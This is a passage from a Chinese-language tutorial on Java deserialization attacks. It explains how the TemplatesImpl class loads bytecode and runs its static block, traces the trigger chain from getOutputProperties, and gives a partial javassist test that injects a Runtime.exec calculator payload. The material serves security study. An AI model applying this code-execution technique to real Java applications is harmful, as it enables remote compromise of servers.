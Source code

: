 ```text
                }
            }
        }
}
```

在方法中，调用了 `ClassLoader.defineClass()` 方法，参数为实例变量 `_bytecodes` 内的元素，该方法会将字节数组转换为 Class，并加载

也就是说，通过设置 `_bytecodes` 的内容 ，调用 `defineTransletClasses()` 方法即可加载指定的 Class。

在代码中，一共有三个地方调用了这个方法

* getTransletClasses\(\)
* getTransletIndex\(\)
* getTransletInstance\(\)

在 **Java static initializer** 部分提到 `ClassLoader.defineClass()` 并不会执行 static 代码块，所以前两个方法不满足条件，再看一下 `getTransletInstance()` 方法

```text
   private Translet getTransletInstance()
        throws TransformerConfigurationException {
        try {
            if (_name == null) return null;

            if (_class == null) defineTransletClasses();
            
            // 创建实例
            AbstractTranslet translet = (AbstractTranslet) _class[_transletIndex].newInstance();
            ...
        }
    }
```

`defineTransletClasses()` 执行后，会调用之前加载的 Class 的 `newInstance()` 方法来创建实例，触发 static block 和 constructor 的执行，根据方法调用关系

```text
getOutputProperties() => newTransformer() => getTransletInstance() => defineTransletClasses() => ClassLoader.defineClass()
```

可以看到调用 `getOutputProperties()` 或 `newTransformer()` 方法均可触发恶意代码的执行

理一下思路

* 使用 `javassist` 库创建一个包含恶意代码的 class，恶意代码可以在 static block中，或在无参构造函数里
* 将恶意 class 的的字节码添加到 TemplatesImpl 实例的 `_bytecodes` 变量中
* 调用实例的 `getOutputProperties()` 或 `newTransformer()` 方法触发恶意代码执行

弹出计算器的代码示例如下 \(程序报错可以忽略\)

```text
    @Test
    public void testTemplatesImpl() throws Exception {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.get(Cat.class.getName());
        String cmd = "java.lang.Runtime.getRuntime().exec(\"open -a /Applications/Calculator.app\");";
        // 创建 static 代码块，并插入恶意代码
        cc.makeClassInitializer().insertBefore(cmd);
        // 使用构造方法也可以
        //CtConstructor constructor = cc.getDeclaredConstructor(new CtClass[]{});
        //constructor.insertBefore(cmd);
        String randomClassName = "EvilCat" + System.nanoTime();
        cc.setName(randomClassName);
        // 为了使 _transletIndex 正确，并执行 newInstance()，具体可查看 defineTransletClasses 方法
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        // 获取字节码
```
